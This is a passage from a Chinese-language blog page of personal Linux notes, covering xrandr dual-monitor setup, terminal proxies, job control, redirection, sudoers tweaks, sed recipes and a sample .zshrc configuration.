中自带的“监视器屏幕分辨率设置”软件功能很强大(系统-&gt;首选项-&gt;屏幕分辨率)， 打开和关闭第二个监视器的办法是调整它的分辨率，取消“克隆”就可以设置成扩展屏幕，还可以通过拖动图标位置调整双屏时两个屏幕的相对位置。</span><br><span class="line">     Image</span><br><span class="line">  grandr，则是一个图形界面的xrandr前端，功能与前一个软件各有千秋。安装方法：sudo apt-<span class="keyword">get</span> install grandr</span><br><span class="line">     Image</span><br><span class="line">   另外还有两个可以添加到GNOME面板上的快速切换分辨率（但不能切换双屏）的插件，分别是 gnome-randr-applet 和 resapplet，如果你需要可以尝试一下。</span><br><span class="line">   对于 Nvidia显卡，据说可以安装 nvidia-settings (sudo apt-<span class="keyword">get</span> install nvidia-settings)，但我没试验过。</span><br><span class="line"></span><br><span class="line"><span class="number">3</span>、关于双屏下 GNOME面板/ wine / 阿里旺旺的一些问题及解决</span><br><span class="line">   右侧扩展屏幕时，GNOME面板会自动跑到外接显示器上去，可以通过拖动把它放回到笔记本液晶屏上来。</span><br><span class="line">    发现一个有趣的现象，用wine执行的程序，似乎只能在最初显示的那个屏幕上显示，拖到另外一个屏幕上就无法正常渲染了。</span><br><span class="line">    关于在双屏情况下使用阿里旺旺<span class="number">5.7</span>，有一个注意事项，启动扩展双屏后，再启动阿里旺旺会看不到图标，在托盘区只看到一个空白的图标，无法启动菜单，所以 最好先启动阿里旺旺，然后再启动扩展双屏。（如果已经启动了双屏，那么可以先把双屏模式变成非扩展模式，然后启动旺旺，再打开扩展模式即可）。命令如下：</span><br><span class="line">xrandr --output VGA --same-as LVDS</span><br><span class="line">启动旺旺</span><br><span class="line">xrandr --output VGA --right-of LVDS</span><br></pre></td></tr></table></figure>
<h2 id="终端配置、使用"><a href="#终端配置、使用" class="headerlink" title="终端配置、使用"></a>终端配置、使用</h2><h3 id="终端临时走代理"><a href="#终端临时走代理" class="headerlink" title="终端临时走代理"></a>终端临时走代理</h3><figure class="highlight routeros"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line"><span class="builtin-name">export</span> <span class="attribute">http_proxy</span>=<span class="string">"socks5://127.0.0.1:1080"</span></span><br><span class="line"><span class="builtin-name">export</span> <span class="attribute">https_proxy</span>=<span class="string">"socks5://127.0.0.1:1080"</span></span><br><span class="line"><span class="comment"># 或者</span></span><br><span class="line"><span class="builtin-name">export</span> <span class="attribute">ALL_PROXY</span>=socks5://127.0.0.1:1080</span><br></pre></td></tr></table></figure>
<h3 id="终端多任务-fg、bg、jobs"><a href="#终端多任务-fg、bg、jobs" class="headerlink" title="终端多任务 - fg、bg、jobs"></a>终端多任务 - fg、bg、jobs</h3><p><code>jobs</code> ：显示后台进程</p>
<p><code>fg 【jobs num】</code> ：将某后台进程前置</p>
<p><code>bg 【jobs num】</code> ：重新运行某后台暂停的进程</p>
<p><code>【command】&amp;</code> ：后台执行……</p>
<p>Ctrl+Z：暂停并置于后台</p>
<p>(<code>screen</code>后台运行见<code>Debian-Server</code>一文)</p>
<h3 id="管道"><a href="#管道" class="headerlink" title="管道"></a>管道</h3><figure class="highlight elixir"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br></pre></td><td class="code"><pre><span class="line">cut 更适合于矩阵操作,去除其中的一列或者多列</span><br><span class="line"></span><br><span class="line">! 加之前输入过的命令的前几个字母,快速获取前面的命令</span><br><span class="line"></span><br><span class="line">按 ctrl+a, 回到行首,再输入 `<span class="comment">#`号,回车,命令即被注释掉。</span></span><br><span class="line"></span><br><span class="line"><span class="comment"># :gs 表示替换,把上一个命令中全部的 ehbio 替换为 ehbio3; g: global; s: substitute</span></span><br><span class="line">ct<span class="variable">@ehbio</span><span class="symbol">:~/ehbio_project</span><span class="variable">$ </span>!!<span class="symbol">:gs/ehbio/ehbio3</span></span><br><span class="line"></span><br><span class="line">&gt; 表示重定向标准输出,&gt; filename 就是把标准输出存储到文件 filename 里面。标准错误还是会显示在屏幕上。</span><br><span class="line"><span class="number">2</span> &gt;&amp;<span class="number">1</span> 表示把标准错误重定向到标准输出。Linux 终端用 <span class="number">2</span> 表示标准错误,<span class="number">1</span> 表示标准输出。</span><br><span class="line">- (短横线)<span class="symbol">:</span>表示标准输入,一般用于 <span class="number">1</span> 个程序需要多个输入的时候。</span><br><span class="line">&lt; 标准输入,后面可以跟可以产生输出的命令,一般用于 <span class="number">1</span> 个程序需要多个输入的时候。相比-适用范围更广。</span><br><span class="line">| 管道符,表示把前一个命令的输出作为后一个命令的输入,前面也有一些展示例子。用于数据在不同的命令之间传输,</span><br><span class="line">用途是减少硬盘存取损耗。</span><br><span class="line">举例：</span><br><span class="line">bash stdout_error.sh &gt;stdout_error.stdout <span class="number">2</span>&gt;stdout_error.stderr 分离标准输出和标准错误</span><br><span class="line">bash stdout_error.sh &gt; stdout_error.stdout <span class="number">2</span>&gt;&amp;<span class="number">1</span> 标准输出、错误放到同一个文档。</span><br><span class="line"><span class="comment"># - (短横线) 表示上一个命令的输出,传递给 diff</span></span><br><span class="line"><span class="comment"># &lt; 表示其后的命令的输出,也重定向给 diff</span></span><br><span class="line">cat &lt;&lt;END | diff - &lt;(echo <span class="string">"1 2 3"</span> | tr <span class="string">' '</span> <span class="string">'\n'</span>)</span><br></pre></td></tr></table></figure>
<h3 id="Zhcon——tty终端显示中文的办法"><a href="#Zhcon——tty终端显示中文的办法" class="headerlink" title="Zhcon——tty终端显示中文的办法"></a>Zhcon——tty终端显示中文的办法</h3><p><code>apt install zhcon</code> ： 在tty中打开zhcon就可以显示中文。</p>
<h3 id="不小心Ctrl-S冻结终端窗口的解决办法"><a href="#不小心Ctrl-S冻结终端窗口的解决办法" class="headerlink" title="不小心Ctrl+S冻结终端窗口的解决办法"></a>不小心Ctrl+S冻结终端窗口的解决办法</h3><p>Ctrl+Q 解除锁定。然后<code>jobs</code>查看后台停止的程序，<code>fg</code>到前台继续运行就行了。</p>
<h3 id="终端Sudo不输入密码-sudo-None-Passwd"><a href="#终端Sudo不输入密码-sudo-None-Passwd" class="headerlink" title="终端Sudo不输入密码 - sudo None Passwd"></a>终端<code>Sudo</code>不输入密码 - sudo None Passwd</h3><p><code>sudo visudo</code>编辑<code>/etc/sudoers</code></p>
<p>添加：</p>
<figure class="highlight ada"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">『你的用户名』 <span class="keyword">ALL</span>=(<span class="keyword">ALL</span>)NOPASSWD:<span class="keyword">ALL</span></span><br></pre></td></tr></table></figure>
<h3 id="终端Sudo提前输入密码的方法"><a href="#终端Sudo提前输入密码的方法" class="headerlink" title="终端Sudo提前输入密码的方法"></a>终端<code>Sudo</code>提前输入密码的方法</h3><figure class="highlight dockerfile"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">echo <span class="string">'yourpassword'</span>|sudo -S ./manager-linux-x64.<span class="keyword">run</span></span><br></pre></td></tr></table></figure>
<h3 id="Bashrc-alias——自定义命令别名"><a href="#Bashrc-alias——自定义命令别名" class="headerlink" title="Bashrc alias——自定义命令别名"></a>Bashrc alias——自定义命令别名</h3><p>编辑用户目录下的 <code>vi ~/.bashrc</code><br>添加：<br><code>alias ll=&#39;ls -l&#39;</code> 表示<code>ll</code>代表<code>ls -l</code></p>
<p>需要重启或<code>source ~/.bashrc</code>才能生效。</p>
<h3 id="Sed、Vim——文本处理"><a href="#Sed、Vim——文本处理" class="headerlink" title="Sed、Vim——文本处理"></a>Sed、Vim——文本处理</h3><figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br><span class="line">49</span><br><span class="line">50</span><br><span class="line">51</span><br><span class="line">52</span><br><span class="line">53</span><br><span class="line">54</span><br><span class="line">55</span><br><span class="line">56</span><br><span class="line">57</span><br><span class="line">58</span><br><span class="line">59</span><br><span class="line">60</span><br><span class="line">61</span><br><span class="line">62</span><br><span class="line">63</span><br><span class="line">64</span><br><span class="line">65</span><br><span class="line">66</span><br><span class="line">67</span><br><span class="line">68</span><br><span class="line">69</span><br><span class="line">70</span><br><span class="line">71</span><br><span class="line">72</span><br><span class="line">73</span><br><span class="line">74</span><br><span class="line">75</span><br><span class="line">76</span><br><span class="line">77</span><br><span class="line">78</span><br><span class="line">79</span><br><span class="line">80</span><br><span class="line">81</span><br><span class="line">82</span><br><span class="line">83</span><br><span class="line">84</span><br><span class="line">85</span><br><span class="line">86</span><br><span class="line">87</span><br><span class="line">88</span><br><span class="line">89</span><br><span class="line">90</span><br><span class="line">91</span><br><span class="line">92</span><br><span class="line">93</span><br><span class="line">94</span><br><span class="line">95</span><br><span class="line">96</span><br><span class="line">97</span><br><span class="line">98</span><br><span class="line">99</span><br><span class="line">100</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment"># vim：</span></span><br><span class="line">:<span class="built_in">set</span> termencoding=euc-cn encoding=UTF-8</span><br><span class="line"></span><br><span class="line"><span class="comment"># gedit：</span></span><br><span class="line">gedit --encoding=GBK</span><br><span class="line"></span><br><span class="line"><span class="comment"># 查看UTF-8文件是否带BOM：</span></span><br><span class="line">grep -r -I -l $<span class="string">'^\xEF\xBB\xBF'</span> ./ </span><br><span class="line"></span><br><span class="line"><span class="comment"># 查找并删除：</span></span><br><span class="line">find . -<span class="built_in">type</span> f -<span class="built_in">exec</span> sed -i <span class="string">'s/\xEF\xBB\xBF//'</span> &#123;&#125; \; </span><br><span class="line"></span><br><span class="line"><span class="comment"># Windows下写的Shell脚本出现#！/bin/bash^M时：说明文件是\r\n换行</span></span><br><span class="line"><span class="comment"># 查看：</span></span><br><span class="line">cat -A [file]	//dos格式的文件行尾为^M$，unix格式的文件行尾为$</span><br><span class="line">od -t x1 file</span><br><span class="line"><span class="comment"># 转化：</span></span><br><span class="line">1.VIM</span><br><span class="line">打开文件：vi filename</span><br><span class="line">执行设置文件为unix: <span class="built_in">set</span> ff=unix</span><br><span class="line">然后执行:wq</span><br><span class="line">成功保存成unix格式</span><br><span class="line">2.SED</span><br><span class="line">sed -i <span class="string">"s/\r//"</span> filename</span><br><span class="line">sed处理带有变量的东西：</span><br><span class="line">sed -i <span class="string">"s|/var/www|<span class="variable">$HOME</span>/HTML|g"</span> filename</span><br><span class="line">sed删除最后一行：</span><br><span class="line">sed -i <span class="string">'$d'</span> /etc/sudoers</span><br><span class="line">sed替换：</span><br><span class="line">sed -i <span class="string">"s/<span class="variable">$TEMPORARILY_SUDOER_STRING</span>/ /g"</span> /etc/sudoers</span><br><span class="line"><span class="comment"># sed使用变量</span></span><br><span class="line">sed -i <span class="string">'s|'</span><span class="variable">$src</span><span class="string">'|'</span><span class="variable">$dst</span><span class="string">'|g'</span> <span class="variable">$filepath</span></span><br><span class="line">sed -i <span class="string">'s@'</span><span class="variable">$src</span><span class="string">'@'</span><span class="variable">$dst</span><span class="string">'@g'</span> <span class="variable">$filepath</span></span><br><span class="line"><span class="comment"># sed使用正则表达式 "img[a-z0-9A-Z./]+(jpg|png)</span></span><br><span class="line"><span class="comment"># "img[a-z0-9A-Z./]\+\(jpg\|png\)</span></span><br><span class="line"><span class="comment"># 匹配 `"img/asdsadsadsad/dasdsd.jpg`</span></span><br><span class="line">sed -i <span class="string">'s#"img[a-z0-9A-Z./]\+\(jpg\|png\)#"'</span><span class="variable">$js_dst</span><span class="string">'&amp;#'</span> <span class="variable">$filepath</span></span><br><span class="line">3.DOS2UNIX</span><br><span class="line">dos2unix [file]</span><br><span class="line"></span><br><span class="line"><span class="comment"># 翻转文字 </span></span><br><span class="line">`tac` :翻转每一行,但不会写入文件</span><br><span class="line">`rev` ：翻转每一列,但不会写入文件</span><br><span class="line"></span><br><span class="line"><span class="comment"># 替换文字</span></span><br><span class="line">tr <span class="string">':'</span> <span class="string">'\n'</span> —— 把‘：’替换为“\n”</span><br><span class="line"></span><br><span class="line"><span class="comment"># sed在指定位置前后插入行</span></span><br><span class="line">https://www.cnblogs.com/liujiaxin2018/p/14988775.html</span><br><span class="line"></span><br><span class="line">在第2行后插入xxxx:</span><br><span class="line">sed <span class="string">'2a xxxx'</span> a.txt</span><br><span class="line">在第二行前插入xxxx:</span><br><span class="line">sed <span class="string">'2i xxxx'</span> a.txt</span><br><span class="line">在第2行到第4行后都插入xxxx:</span><br><span class="line">sed <span class="string">'2,4a xxxx'</span> a.txt</span><br><span class="line">在第二行和第四行后插入xxxx:</span><br><span class="line">sed -e <span class="string">'2a xxxx'</span> -e <span class="string">'4a xxxx'</span> a.txt</span><br><span class="line">在行首、行尾添加xxxx:</span><br><span class="line">sed <span class="string">'1i xxxx'</span> a.txt</span><br><span class="line">sed <span class="string">'$a xxxx'</span> a.txt</span><br><span class="line">在奇数行后添加xxxx:</span><br><span class="line">sed <span class="string">'1~2a xxxx'</span> a.txt</span><br><span class="line">在偶数行后添加xxxx:</span><br><span class="line">sed <span class="string">'2~2a xxxx'</span> a.txt</span><br><span class="line">在3倍数行后添加xxxx:</span><br><span class="line">sed <span class="string">'3~3a xxxx'</span> a.txt</span><br><span class="line">在匹配d的行后添加xxxx:</span><br><span class="line">sed <span class="string">'/d/a xxxx'</span> a.txt</span><br><span class="line">在以s开头的行后添加xxxx:</span><br><span class="line">sed <span class="string">'/^s/a xxxx'</span> a.txt</span><br><span class="line">在以d结尾的行后添加xxxx:</span><br><span class="line">sed <span class="string">'/d$/a xxxx'</span> a.txt</span><br><span class="line">在以s开头同时以w结尾的行后添加xxxx:</span><br><span class="line">sed <span class="string">'/^s.*w$/a xxxx'</span> a.txt</span><br><span class="line">在同时包含k后者w的行后添加xxxx:</span><br><span class="line">sed <span class="string">'/k\|w/a xxxx'</span> a.txt</span><br><span class="line">在同时包含4和e的行后添加xxxx:</span><br><span class="line">sed <span class="string">'/4.*e\|e.*4/a xxxx'</span> a.txt</span><br><span class="line"></span><br><span class="line">查找某字符串所处行:</span><br><span class="line"><span class="comment"># 获取行号</span></span><br><span class="line">单个字符串:</span><br><span class="line">idx=`cat /etc/sudoers | grep -n <span class="variable">$check_var</span> | gawk <span class="string">'&#123;print $1&#125;'</span> FS=<span class="string">":"</span>`</span><br><span class="line">多个字符串：</span><br><span class="line">idx=`cat /etc/sudoers | grep -n ^<span class="variable">$CURRENT_USER_SET</span> | grep <span class="variable">$check_var</span> | gawk <span class="string">'&#123;print $1&#125;'</span> FS=<span class="string">":"</span>`</span><br><span class="line"></span><br><span class="line">idxlen=</span><br><span class="line"></span><br><span class="line"><span class="comment"># 解析行号</span></span><br><span class="line"><span class="keyword">if</span> [ <span class="variable">$idxlen</span> -eq 1 ];<span class="keyword">then</span></span><br><span class="line">    sed -i <span class="string">"<span class="variable">$idx</span> d"</span> /etc/sudoers</span><br><span class="line">    <span class="built_in">echo</span> <span class="variable">$SUDO_STRING</span> &gt;&gt; /etc/sudoers</span><br><span class="line"><span class="keyword">elif</span> [ <span class="variable">$idxlen</span> -eq 0 ];<span class="keyword">then</span></span><br><span class="line">    prompt -w <span class="string">"Setting not found in /etc/sudoers!"</span></span><br><span class="line">    <span class="built_in">echo</span> <span class="variable">$SUDO_STRING</span> &gt;&gt; /etc/sudoers</span><br><span class="line"><span class="keyword">else</span></span><br><span class="line">    prompt -e <span class="string">"Find duplicate user setting in /etc/sudoers! Check manually!"</span></span><br><span class="line">    <span class="built_in">exit</span> 1</span><br><span class="line"><span class="keyword">fi</span></span><br></pre></td></tr></table></figure>
<h3 id="从文本文件中删除空行的正则表达式-转载"><a href="#从文本文件中删除空行的正则表达式-转载" class="headerlink" title="从文本文件中删除空行的正则表达式(转载)"></a>从文本文件中删除空行的正则表达式(转载)</h3><blockquote>
<p>转载自：<a href="https://www.ultraedit.com/support/tutorials-power-tips/ultraedit/remove-blank-lines.html" target="_blank" rel="noopener">https://www.ultraedit.com/support/tutorials-power-tips/ultraedit/remove-blank-lines.html</a></p>
</blockquote>
<p><code>**^(?:[\t ]\*(?:\r?\n|\r))+**</code> 或者<code>**%[^t ]++[^r^n]+**</code></p>
<h3 id="ZSH配置文件参考"><a href="#ZSH配置文件参考" class="headerlink" title="ZSH配置文件参考"></a>ZSH配置文件参考</h3><figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br><span class="line">49</span><br><span class="line">50</span><br><span class="line">51</span><br><span class="line">52</span><br><span class="line">53</span><br><span class="line">54</span><br><span class="line">55</span><br><span class="line">56</span><br><span class="line">57</span><br><span class="line">58</span><br><span class="line">59</span><br><span class="line">60</span><br><span class="line">61</span><br><span class="line">62</span><br><span class="line">63</span><br><span class="line">64</span><br><span class="line">65</span><br><span class="line">66</span><br><span class="line">67</span><br><span class="line">68</span><br><span class="line">69</span><br><span class="line">70</span><br><span class="line">71</span><br><span class="line">72</span><br><span class="line">73</span><br><span class="line">74</span><br><span class="line">75</span><br><span class="line">76</span><br><span class="line">77</span><br><span class="line">78</span><br><span class="line">79</span><br><span class="line">80</span><br><span class="line">81</span><br><span class="line">82</span><br><span class="line">83</span><br><span class="line">84</span><br><span class="line">85</span><br><span class="line">86</span><br><span class="line">87</span><br><span class="line">88</span><br><span class="line">89</span><br><span class="line">90</span><br><span class="line">91</span><br><span class="line">92</span><br><span class="line">93</span><br><span class="line">94</span><br><span class="line">95</span><br><span class="line">96</span><br><span class="line">97</span><br><span class="line">98</span><br><span class="line">99</span><br><span class="line">100</span><br><span class="line">101</span><br><span class="line">102</span><br><span class="line">103</span><br><span class="line">104</span><br><span class="line">105</span><br><span class="line">106</span><br><span class="line">107</span><br><span class="line">108</span><br><span class="line">109</span><br><span class="line">110</span><br><span class="line">111</span><br><span class="line">112</span><br><span class="line">113</span><br><span class="line">114</span><br><span class="line">115</span><br><span class="line">116</span><br><span class="line">117</span><br><span class="line">118</span><br><span class="line">119</span><br><span class="line">120</span><br><span class="line">121</span><br><span class="line">122</span><br><span class="line">123</span><br><span class="line">124</span><br><span class="line">125</span><br><span class="line">126</span><br><span class="line">127</span><br><span class="line">128</span><br><span class="line">129</span><br><span class="line">130</span><br><span class="line">131</span><br><span class="line">132</span><br><span class="line">133</span><br><span class="line">134</span><br><span class="line">135</span><br><span class="line">136</span><br><span class="line">137</span><br><span class="line">138</span><br><span class="line">139</span><br><span class="line">140</span><br><span class="line">141</span><br><span class="line">142</span><br><span class="line">143</span><br><span class="line">144</span><br><span class="line">145</span><br><span class="line">146</span><br><span class="line">147</span><br><span class="line">148</span><br><span class="line">149</span><br><span class="line">150</span><br><span class="line">151</span><br><span class="line">152</span><br><span class="line">153</span><br><span class="line">154</span><br><span class="line">155</span><br><span class="line">156</span><br><span class="line">157</span><br><span class="line">158</span><br><span class="line">159</span><br><span class="line">160</span><br><span class="line">161</span><br><span class="line">162</span><br><span class="line">163</span><br><span class="line">164</span><br><span class="line">165</span><br><span class="line">166</span><br><span class="line">167</span><br><span class="line">168</span><br><span class="line">169</span><br><span class="line">170</span><br><span class="line">171</span><br><span class="line">172</span><br><span class="line">173</span><br><span class="line">174</span><br><span class="line">175</span><br><span class="line">176</span><br><span class="line">177</span><br><span class="line">178</span><br><span class="line">179</span><br><span class="line">180</span><br><span class="line">181</span><br><span class="line">182</span><br><span class="line">183</span><br><span class="line">184</span><br><span class="line">185</span><br><span class="line">186</span><br><span class="line">187</span><br><span class="line">188</span><br><span class="line">189</span><br><span class="line">190</span><br><span class="line">191</span><br><span class="line">192</span><br><span class="line">193</span><br><span class="line">194</span><br><span class="line">195</span><br><span class="line">196</span><br><span class="line">197</span><br><span class="line">198</span><br><span class="line">199</span><br><span class="line">200</span><br><span class="line">201</span><br><span class="line">202</span><br><span class="line">203</span><br><span class="line">204</span><br><span class="line">205</span><br><span class="line">206</span><br><span class="line">207</span><br><span class="line">208</span><br><span class="line">209</span><br><span class="line">210</span><br><span class="line">211</span><br><span class="line">212</span><br><span class="line">213</span><br><span class="line">214</span><br><span class="line">215</span><br><span class="line">216</span><br><span class="line">217</span><br><span class="line">218</span><br><span class="line">219</span><br><span class="line">220</span><br><span class="line">221</span><br><span class="line">222</span><br><span class="line">223</span><br><span class="line">224</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment"># ~/.zshrc file for zsh non-login shells.</span></span><br><span class="line"><span class="comment"># see /usr/share/doc/zsh/examples/zshrc for examples</span></span><br><span class="line"></span><br><span class="line"><span class="built_in">setopt</span> autocd              <span class="comment"># change directory just by typing its name</span></span><br><span class="line"><span class="comment">#setopt correct            # auto correct mistakes</span></span><br><span class="line"><span class="built_in">setopt</span> interactivecomments <span class="comment"># allow comments in interactive mode</span></span><br><span class="line"><span class="built_in">setopt</span> ksharrays           <span class="comment"># arrays start at 0</span></span><br><span class="line"><span class="built_in">setopt</span> magicequalsubst     <span class="comment"># enable filename expansion for arguments of the form ‘anything=expression’</span></span><br><span class="line"><span class="built_in">setopt</span> nonomatch           <span class="comment"># hide error message if there is no match for the pattern</span></span><br><span class="line"><span class="built_in">setopt</span> notify              <span class="comment"># report the status of background jobs immediately</span></span><br><span class="line"><span class="built_in">setopt</span> numericglobsort     <span class="comment"># sort filenames numerically when it makes sense</span></span><br><span class="line"><span class="built_in">setopt</span> promptsubst         <span class="comment"># enable command substitution in prompt</span></span><br><span class="line"></span><br><span class="line">WORDCHARS=<span class="variable">$&#123;WORDCHARS//\/&#125;</span> <span class="comment"># Don't consider certain characters part of the word</span></span><br><span class="line"></span><br><span class="line"><span class="comment"># hide EOL sign ('%')</span></span><br><span class="line"><span class="built_in">export</span> PROMPT_EOL_MARK=<span class="string">""</span></span><br><span class="line"></span><br><span class="line"><span class="comment"># configure key keybindings</span></span><br><span class="line"><span class="built_in">bindkey</span> -e                                        <span class="comment"># emacs key bindings</span></span><br><span class="line"><span class="built_in">bindkey</span> <span class="string">' '</span> magic-space                           <span class="comment"># do history expansion on space</span></span><br><span class="line"><span class="built_in">bindkey</span> <span class="string">'^[[3;5~'</span> <span class="built_in">kill</span>-word                       <span class="comment"># ctrl + Supr</span></span><br><span class="line"><span class="built_in">bindkey</span> <span class="string">'^[[1;5C'</span> forward-word                    <span class="comment"># ctrl + -&gt;</span></span><br><span class="line"><span class="built_in">bindkey</span> <span class="string">'^[[C'</span> forward-word                       <span class="comment"># ctrl + -&gt;</span></span><br><span class="line"><span class="built_in">bindkey</span> <span class="string">'^[[1;5D'</span> backward-word                   <span class="comment"># ctrl + &lt;-</span></span><br><span class="line"><span class="built_in">bindkey</span> <span class="string">'^[[D'</span> backward-word                      <span class="comment"># ctrl + &lt;-</span></span><br><span class="line"><span class="built_in">bindkey</span> <span class="string">'^[[5~'</span> beginning-of-buffer-or-history    <span class="comment"># page up</span></span><br><span class="line"><span class="built_in">bindkey</span> <span class="string">'^[[6~'</span> end-of-buffer-or-history          <span class="comment"># page down</span></span><br><span class="line"><span class="built_in">bindkey</span> <span class="string">'^[[Z'</span> undo                               <span class="comment"># shift + tab undo last action</span></span><br><span class="line"></span><br><span class="line"><span class="comment"># enable completion features</span></span><br><span class="line"><span class="built_in">autoload</span> -Uz compinit</span><br><span class="line">compinit -d ~/.cache/zcompdump</span><br><span class="line"><span class="built_in">zstyle</span> <span class="string">':completion:*:*:*:*:*'</span> menu select</span><br><span class="line"><span class="built_in">zstyle</span> <span class="string">':completion:*'</span> matcher-list <span class="string">'m:&#123;a-zA-Z&#125;=&#123;A-Za-z&#125;'</span> <span class="comment"># case insensitive tab completion</span></span><br><span class="line"></span><br><span class="line"><span class="comment"># History configurations</span></span><br><span class="line">HISTFILE=~/.zsh_history</span><br><span class="line">HISTSIZE=1000</span><br><span class="line">SAVEHIST=2000</span><br><span class="line"><span class="built_in">setopt</span> hist_expire_dups_first <span class="comment"># delete duplicates first when HISTFILE size exceeds HISTSIZE</span></span><br><span class="line"><span class="built_in">setopt</span> hist_ignore_dups       <span class="comment"># ignore duplicated commands history list</span></span><br><span class="line"><span class="built_in">setopt</span> hist_ignore_space      <span class="comment"># ignore commands that start with space</span></span><br><span class="line"><span class="built_in">setopt</span> hist_verify            <span class="comment"># show command with history expansion to user before running it</span></span><br><span class="line"><span class="comment">#setopt share_history         # share command history data</span></span><br><span class="line"></span><br><span class="line"><span class="comment"># force zsh to show the complete history</span></span><br><span class="line"><span class="built_in">alias</span> <span class="built_in">history</span>=<span class="string">"history 0"</span></span><br><span class="line"></span><br><span class="line"><span class="comment"># make less more friendly for non-text input files, see lesspipe(1)</span></span><br><span class="line"><span class="comment">#[ -x /usr/bin/lesspipe ] &amp;&amp; eval "$(SHELL=/bin/sh lesspipe)"</span></span><br><span class="line"></span><br><span class="line"><span class="comment"># set variable identifying the chroot you work in (used in the prompt below)</span></span><br><span class="line"><span class="keyword">if</span> [ -z <span class="string">"<span class="variable">$&#123;debian_chroot:-&#125;</span>"</span> ] &amp;&amp; [ -r /etc/debian_chroot ]; <span class="keyword">then</span></span><br><span class="line">    debian_chroot=$(cat /etc/debian_chroot)</span><br><span class="line"><span class="keyword">fi</span></span><br><span class="line"></span><br><span class="line"><span class="comment"># set a fancy prompt (non-color, unless we know we "want" color)</span></span><br><span class="line"><span class="keyword">case</span> <span class="string">"<span class="variable">$TERM</span>"</span> <span class="keyword">in</span></span><br><span class="line">    xterm-color|*-256color) color_prompt=yes;;</span><br><span class="line"><span class="keyword">esac</span></span><br><span class="line"></span><br><span class="line"><span class="comment"># uncomment for a colored prompt, if the terminal has the capability; turned</span></span><br><span class="line"><span class="comment"># off by default to not distract the user: the focus in a terminal window</span></span><br><span class="line"><span class="comment"># should be on the output of commands, not on the prompt</span></span><br><span class="line">force_color_prompt=yes</span><br><span class="line"></span><br><span class="line"><span class="keyword">if</span> [ -n <span class="string">"<span class="variable">$force_color_prompt</span>"</span> ]; <span class="keyword">then</span></span><br><span class="line">    <span class="keyword">if</span> [ -x /usr/bin/tput ] &amp;&amp; tput setaf 1 &gt;&amp;/dev/null; <span class="keyword">then</span></span><br><span class="line">	<span class="comment"># We have color support; assume it's compliant with Ecma-48</span></span><br><span class="line">	<span class="comment"># (ISO/IEC-6429). (Lack of such support is extremely rare, and such</span></span><br><span class="line">	<span class="comment"># a case would tend to support setf rather than setaf.)</span></span><br><span class="line">	color_prompt=yes</span><br><span class="line">    <span class="keyword">else</span></span><br><span class="line">	color_prompt=</span><br><span class="line">    <span class="keyword">fi</span></span><br><span class="line"><span class="keyword">fi</span></span><br><span class="line"></span><br><span class="line"><span class="keyword">if</span> [ <span class="string">"<span class="variable">$color_prompt</span>"</span> = yes ]; <span class="keyword">then</span></span><br><span class="line">    PROMPT=$<span class="string">'%F&#123;%(#.blue.green)&#125;┌──$&#123;debian_chroot:+($debian_chroot)──&#125;(%B%F&#123;%(#.red.blue)&#125;%n%(#.💀.㉿)%m%b%F&#123;%(#.blue.green)&#125;)-[%B%F&#123;reset&#125;%(6~.%-1~/…/%4~.%5~)%b%F&#123;%(#.blue.green)&#125;]\n└─%B%(#.%F&#123;red&#125;#.%F&#123;blue&#125;$)%b%F&#123;reset&#125; '</span></span><br><span class="line">    RPROMPT=$<span class="string">'%(?.. %? %F&#123;red&#125;%B⨯%b%F&#123;reset&#125;)%(1j. %j %F&#123;yellow&#125;%B⚙%b%F&#123;reset&#125;.)'</span></span><br><span class="line"></span><br><span class="line">    <span class="comment"># enable syntax-highlighting</span></span><br><span class="line">    